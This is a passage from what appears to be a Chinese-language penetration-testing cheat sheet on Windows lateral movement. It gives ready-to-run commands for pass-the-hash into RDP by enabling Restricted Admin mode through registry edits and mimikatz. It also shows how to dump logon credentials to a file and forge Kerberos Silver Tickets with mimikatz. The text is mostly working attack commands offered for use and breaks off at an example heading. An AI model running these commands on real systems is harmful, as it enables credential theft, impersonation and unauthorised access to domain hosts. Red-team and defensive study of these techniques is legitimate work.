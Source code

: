     # 新建 DWORD 键值 DisableRestrictedAdmin，值为 0，代表开启;值为 1，代表关闭
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

    在获取目标系统权限之后，通过 cmd 交互，可以轻松关闭受限管理模式

3. mimikatz 修改注册表

    如果你有一个用户的 NTLM 哈希值，而这个用户有设置注册表的权限，你可以使用 Powershell 来启用它，然后通过 RDP 登录。
    ```bash
    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
    ```
    ```bash
    Enter-PSSession -Computer <Target>
    New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0"
    ```

4. 使用攻击机自己的用户及 Hash 进行远程登录
    ```bash
    mstsc.exe /restrictedadmin
    ```
    如果当前系统支持受限管理模式，则上述命令执行后会直接弹出远程登录的登录界面；如果当前系统不支持受限管理模式，则上述命令执行后会弹出远程桌面的参数说明

    如果上述命令顺利执行，输入目标机器的 IP 和端口，可直接进行远程登录，不需要输入任何口令，这种方式会使用当前攻击机的用户名和用户 hash 尝试登录目标机器

    开启 Restricted Admin mode
    ```bash
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

---

# PTT

## Silver_Tickets

导出 Server Hash
```bash
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```

使用 mimikatz 伪造白银票据：
```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit
```

**例子:访问域控上的 cifs 服务(Windoiws 主机间的文件共享)**

